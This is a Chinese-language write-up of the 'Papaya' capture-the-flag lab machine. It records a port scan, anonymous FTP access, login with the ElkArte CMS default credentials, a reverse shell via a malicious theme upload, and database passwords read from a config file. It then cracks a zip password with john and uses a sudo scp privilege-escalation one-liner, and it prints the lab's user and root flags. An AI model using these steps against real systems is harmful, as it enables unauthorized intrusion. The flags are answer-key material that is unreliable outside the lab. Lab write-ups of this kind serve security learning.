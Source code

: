 # Papaya

2025.03.03 https://thehackerslabs.com/papaya/

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆得到 secret.txt : ndhvabunlanqnpbñb

将 papaya.thl 添加到 hosts 文件，在访问主页，底部 ElkArte 1.1.9 ，尝试使用该 cms 的默认凭据进行登陆: admin:password

这里可以上传文件从而获得反弹 shell https://www.exploit-db.com/exploits/52026 添加新的 Theme

访问 http://papaya.thl/themes/8888/8888.php 获得反弹 shell。

发现数据库配置数据：

```
www-data@papaya:/var/www/html/elkarte$ cat Settings.php

$db_name = 'elkarte';
$db_user = 'elkarte';
$db_passwd = 'password';
```

在 /opt 中发现 pass.zip 有密码，john 爆出密码 jesica ， zip 解压后得到 papayarica 是 papaya 用户的密码，ssh 登陆到这个用户。

拿到 user flag：

```
papaya@papaya:~$ cat user.txt
c84145316c7a5f4574fe34e5164c3c83
```

sudo 显示 (root) NOPASSWD: /usr/bin/scp 进行提权：

```
TF=$(mktemp);echo 'sh 0<&2 1>&2' > $TF;chmod +x "$TF"
sudo scp -S $TF x y:
```

拿到 root flag：

```
# id
uid=0(root) gid=0(root) grupos=0(root)
# cd /root
# ls
root.txt
# cat root.txt
da4ac5feea7ff4ac9f3e0d842d76e271
```
